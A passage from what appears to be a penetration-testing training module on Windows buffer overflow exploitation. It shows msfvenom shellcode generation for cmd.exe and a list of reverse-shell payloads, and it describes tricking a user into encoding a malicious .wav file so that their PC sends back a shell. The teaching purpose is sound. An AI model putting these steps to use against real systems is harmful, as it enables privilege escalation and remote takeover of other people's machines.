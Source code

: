 The final step would be to utilize this exploit to gain code execution. Since we are dealing with a local buffer overflow running in a machine we have user-level access to, we will usually use this exploit to escalate our privileges to the admin user if a local admin executed this program. Another way to utilize this is by writing a malicious `.wav` file that sends back a reverse shell. We would then share this malicious file with a user that uses this vulnerable application and ask them to encode our malicious `.wav` file. When they do, we would receive a reverse shell and gain control over their PC.

To do either of these options, all we have to do is change our shellcode to do something else. For local privilege escalation, we can use the same command we used for `calc.exe`, but use `CMD=cmd.exe` instead, as follows:

  Jumping to Shellcode

```shell-session
frodonomojo@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...SNIP...
```

If we wanted to get a reverse shell, there are many `msfvenom` payloads we can use, which we can get a list of as follows:

  Jumping to Shellcode

```shell-session
frodonomojo@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

We can use the `windows/shell_reverse_tcp` payload as follows:

  Jumping to Shellcode
